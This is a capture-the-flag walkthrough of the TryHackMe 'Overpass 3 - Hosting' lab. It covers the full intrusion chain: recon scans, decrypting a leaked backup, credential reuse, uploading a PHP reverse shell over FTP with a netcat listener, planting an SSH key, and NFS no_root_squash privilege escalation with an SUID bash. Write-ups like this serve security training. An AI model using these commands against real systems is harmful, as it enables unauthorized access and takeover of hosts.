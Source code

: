 ### THM - Overpass 3 - Hosting

Link to the room: [Overpass 3 - Hosting](https://tryhackme.com/room/overpass3hosting)

Difficulty: Medium 

#### Recon
We can start with nmap scan command:

```sudo nmap -vv -A -Pn -p- -oA overpass3_nmap 10.10.205.247```

![nmap_running](img/nmap_still_running.png)

While nmap still running we can see that port 80, 21, 22 is open. We can start doing some basic manual recon on the webserver port 80.

![source](img/web_source.png)

On the web page, it is safe to assume that paradox, Elf, MuirlandOracle, and James are the users. There is really nothing else to do on the web page. Before we move on to the nmap scan results, lets start our ffuf scan on the webserver. 

```ffuf -u http://10.10.205.247/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ic -c```

Now while ffuf is running, We can move on to the nmapp scan results.

![nmap_results](img/nmap_results.png)

We can see that port 21 is open and running vsftpd 3.0.3. However, we can see that anonymous login is disabled. We can also see that port 22 is open and running OpenSSH 8.0 and port 80 is running Apache httpd 2.4.37. Let's check on the ffuf scan results.

![ffuf_results](img/ffuf_scan.png)

We can see that there is a directory called 'backups'. Let's check on that.

![backups](img/backups_dir.png)

Let's download that backup.zip file and see what's inside.

![backup_zip](img/backup_zip_folder.png)

We can see that there is an excel gpg encrypted file and a private key. Let's try to decrypt the file using the private key and convert it to csv file so we can open it.

```gpg --import priv.key```

```gpg --output CustomerDetials.xlsx --decrypt CustomerDetials.xlsx.gpg```

```ssconvert CustomerDetials.xlsx CustomerDetials.csv```

![gpg_decrypt](img/gpg_decrypt.png)

![csv_file](img/customer_details.png)

#### Exploit

We can see that there are some usernames and passwords in the csv file. We also know that paradox and muirlandoracle are the users from the web page. 

Let's see if we can ssh to paradox with the credential we found.

![ssh_paradox](img/ssh_paradox_failed.png)

Host doesn't allow ssh login with password without an authorized public key. Let's try to login to the ftp server using the credentials we found.

```ftp 10.10.205.247```
 
 After we login to the ftp server, we can see that it is the /var/www/html directory. It looks like we have permission to upload files. Let's upload a reverse shell and try to get a shell. We will be usig the php reverse shell from pentestmonkey [php_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Let's upload the shell and start a netcat listener.

![ftp_upload](img/second_ftp.png)

 ```nc -lvnp 4444```

 and call the shell from the browser. ```10.10.205.247/shell.php```

and we got a shell.

![shell](img/1foothold.png)

Since we have a foothold, let's make this shell feel a little more comfortable. We can use python to get a better shell.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

```stty raw -echo; fg```

![better_shell](img/better_shell.png)


#### Privilege Escalation

We can see that we are in the apache user with limited permissions. However, we can try to find a web flag. So let's do some enumeration. This flag is well hidden but after a while of enumeration, we can see that it is in ```/usr/share/httpd/web.flag```. The easier way to find this flag is to use the find command.

```find / -name *flag* 2>/dev/null```

Now that we found it, let's cat it and get the flag.

![web_flag](img/web_flag.png)

First flag down. Let's see what other users are on this host. We can use the command ```cat /etc/passwd``` to see all the users on the host.

![users](img/passwd.png)

We can see that paradox user is on there. Let's try to switch to paradox user with su command.

![su_paradox](img/su_paradox.png)

Great!...but we can see that there is no flag in paradox home directory. There is another user called James. However, we dont have James password. Let's do some more enumeration.

*Extra* Since we can't ssh to paradox with password, we can try to create a private key on our machine and add the generated public key to authorized_key in .ssh folder in paradox home directory. This way we can ssh to paradox without password.

```ssh-keygen paradox```

Let's add our public key to authorized_key file.

```echo {OUR_GENERATED_PUBLIC_KEY.pub} >> .ssh/authorized_keys```

Then let's try to ssh to paradox.

```ssh paradox@10.10.205.247 -i paradox```

![ssh_paradox](img/ssh_paradox.png)

Great! we can ssh to paradox with our private key. Now let's do some more enumeration to gain access to James account. 

After some basic enum we can see that there is a NFS share on the host with misconfigured permissions. Let's mount the share and see what's inside.

![nfs_share](img/nfs_share.png)

Let's try to mount the share.

```mkdir /tmp/mount```

```sudo mount -v -t nfs 10.10.205.247:/ /tmp/mount```

![failed_nfs](img/failed_nfs.png)

We got "mount.nfs: mount(2): No route to host" error. Let's see if we can list the nfs mount on the host.

```showmount -e 10.10.205.247```

And we get "clnt_create: RPC: Unable to receive" error. Let's check rpcinfo to see if rpcbind is running.

```rpcinfo -p```

![rpcinfo](img/rpcinfo.png)

We can see that rpcbind is running and nfs is on the normal nfs port 2049. After trying to run command ```netstat -l``` to see the listening port, we can see that the host doesn't have netstat installed. Hmm...let's try to reverse ssh to the port and try to mount the share again.

```ssh paradox@10.10.205.247 -i paradox -L 2049:localhost:2049```

```sudo mount -v -t nfs localhost:/ /tmp/mount```

![nfs_mount](img/mounted_nfs.png)

Let's go ahead and get that user flag.

![user_flag](img/user_flag.png)

We can also find a private key in the share. Let's try to use that key to ssh to James account.


```ssh james@10.10.205.247 -i /tmp/mount/.ssh/id_rsa```

Now that we have user flag and ssh to James user, let's try to get root flag. We know that this share is configured with "no_root_squash" option. We use it to get root shell by upload our own bash with SUID bit set and root as owner. Let's create a bash file with SUID bit set and root as owner.

```cp /bin/bash .```

```chmod +xs bash```

![james_folder](img/james_folder.png)

And we can run it with this command to get root.

```./bash -p```

![gcc_error](img/gcc_error.png)

However, we get gcc error. Let's try to use bash from the host.

On James.
```cp /bin/bash .```

```chmod 777 bash```

On our machine.

```chown root bash```

```chmod +xs bash```

On James.

```./bash -p```

![root_shell](img/root_shell.png)

Great! We are now root. Let's get the root flag.

![root_flag](img/root_flag.png)

And we got the root flag. Thanks for reading.


